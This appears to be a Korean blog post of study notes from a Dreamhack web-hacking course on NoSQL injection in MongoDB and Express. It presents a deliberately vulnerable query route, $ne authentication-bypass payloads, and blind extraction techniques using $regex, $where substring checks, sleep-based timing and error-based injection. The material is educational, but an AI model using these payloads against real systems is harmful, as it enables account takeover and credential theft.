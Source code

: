 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (5) : NoSQL Injection"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# 드림핵 웹 NoSQL Injection (2)

-  [x] NoSQL Injection
-  [x] Bline NoSQL Injection

## ServerSide : NoSQL Injection
SQL Injection과 공격 목적과 방법이 매우 유사하며, 이용자의 입력값이 쿼리에 포함되며 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다. MongoDB는 SQL에서 저장하는 자료형 외에도 오브젝트, 배열 타입을 사용할 수 있다.
<br><br>

MongoDB 자료형 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/type/) <br><br>

**express 데이터 처리 방식** <br><br>
이용자의 입력값과 타입을 출력하는데, req.query의 타입이 문자열로 지정되어 있지 않기 때문에 문자열 외의 타입이 입력될 수 있다.

```js
const express = require('express'); // express 기본 모듈 불러오기
const app = express(); // express 객체 생성
//get 프로토콜에 대한 응답
app.get('/', function(req,res) {
    console.log('data:', req.query.data);
    console.log('type:', typeof req.query.data);
    res.send('hello world');
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

### NoSQL Injection
MongoDB는 문자열이 아닌 타입의 값을 입력할 수 있고, 이를 통해 연산자를 사용할 수 있다. <br><br>

**MongoDB NoSQL Injection Example** <br>

```js
const express = require('express');
const app = express();
const mongoose = require('mongoose');
const db = mongoose.connection;
mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
app.get('/query', function(req,res) {
    db.collection('user').find({
        'uid': req.query.uid,
        'upw': req.query.upw
    }).toArray(function(err, result) {
        if (err) throw err;
        res.send(result);
  });
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

위 코드는 user 콜렉션에서 이용자가 입력한 uid와 upw에 해당하는 데이터를 찾고, 출력하는 예제 코드로, 이용자의 입력값에 대해 타입을 검증하지 않기 때문에 오브젝트 타입의 값을 입력할 수 있다. 오브젝트 타입의 값을 입력할 수 있다면, 연산자를 사용할 수 있으며, $ne 연산자는 입력한 데이터와 일치하지 않는 데이터를 반환한다. 따라서, 공격자는 계정 정보를 모르더라도 다음과 같이 입력해 해당 정보를 알아낼 수 있다.<br><br>

**ne 연산자 : uid와 upw가 a가 아닌 데이터를 조회한 결과**

```
http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
```

#### NoSQL Injection 실습 - admin의 계정의 비밀번호 획득하기
upw에 not equal 연산자를 사용하여 upw의 값에 상관 없이 uid가 admin인 데이터를 조회할 수 있다

```
{"uid": "admin", "upw":{"$ne":""}}
```

### Blind NoSQL Injection

MongoDB 연산자 공식 문서 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/)


|Name|Description|
|:---|:---|
|$expr|쿼리 언어 내에서 집계 식을 사용할 수 있습니다.|
|$regex|지정된 정규식과 일치하는 문서를 선택합니다.|
|$text|지정된 텍스트를 검색합니다.|
|$where|JavaScript 표현식을 만족하는 문서와 일치합니다.|

#### $regex
regex 연산자를 활용한 upw에서 각 문자로 시작하는 데이터 조회하기

```
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

#### $where
인자로 전달한 JS 표현식을 만족하는 데이터를 조회한다.

```
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }

# 필드에서는 사용할 수 없다
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

###### substring

해당 연산자로 JS 표현식을 입력하면, Blind SQL Injection에서 한 글자씩 비교했던 것과 같이 데이터를 알아낼 수 있다. 

```
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

###### Sleep 함수를 통한 Time based Injection

표현식과 함께 sleep 함수를 사용하면, 지연 시간을 통해 참/거짓 결과를 확인할 수 있다. 아래 쿼리는 upw의 첫 글자를 비교하고, 해당 표현식이 참일 때 sleep 함수를 실행한다 

```
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

###### Error based Injection

에러를 기반으로 데이터를 알아내는 기법으로, 올바르지 않은 문법을 입력해 고의로 에러를 발생시킨다. 

```
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```